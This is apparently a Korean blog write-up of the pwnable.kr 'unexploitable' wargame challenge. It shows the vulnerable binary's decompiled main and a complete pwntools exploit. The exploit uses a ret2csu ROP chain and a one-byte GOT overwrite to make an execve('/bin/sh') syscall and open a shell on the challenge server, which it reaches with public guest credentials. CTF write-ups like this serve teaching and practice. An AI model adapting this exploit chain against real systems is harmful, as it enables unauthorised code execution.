 ```yaml
---
title: "[pwnable.kr]unexploitable"
date: 2020-1-14
tags: [pwnable.kr]
categories: [pwnable.kr]
---
```


sleep(3) 있고 read로 입력받는 바이너리다. 근데 1295나 입력받는다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-10h]

  sleep(3u);
  return read(0, &buf, 1295uLL);
}
```

내 원래 익스 시나리오는 sleep@got 1바이트 syscall로 덮고 아무거나 leak해주고 main에 입력받는 곳으로 리턴해주고 원샷 날리려는 시나리오였는데 립씨 릭하고 다 했는데 메인에서 원샷 안먹는다 ㅡㅡ 화난다 정말 매우 화난다 ㅎㅎ.. 

그래서 다른 방법으로 rax 컨트롤해서 `execve` 로 풀었다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

def chain(r12,r13,r14,r15,ret):
	c = p64(0) # rsp + 8
	c += p64(0) # rbx
	c += p64(1) # rbp
	c += p64(r12) # call
	c += p64(r13) # edi
	c += p64(r14) # rsi
	c += p64(r15) # rdx
	c += p64(ret)
	return c

s = ssh("unexploitable", "pwnable.kr", port=2222, password="guest")
e = ELF('./unexploitable')
p = s.process('./unexploitable')
libc = e.libc
csu_call = 0x00000000004005D0
csu_pop = 0x00000000004005E6
syscall = 0x0000000000400560

payload = 'A'*24
payload += p64(csu_pop)
payload += chain(e.got['read'],0,e.bss()+0x100,10,csu_call)
payload += chain(e.got['read'],0,e.got['sleep'],1,csu_call)
payload += chain(e.got['read'],0,e.bss(),59,csu_call)
payload += chain(e.got['sleep'],e.bss()+0x100,0,0,csu_call)
p.send(payload)
sleep(3)

p.sendline('/bin/sh\x00')
p.send('\xee')
p.send('A'*59)

p.interactive()
```


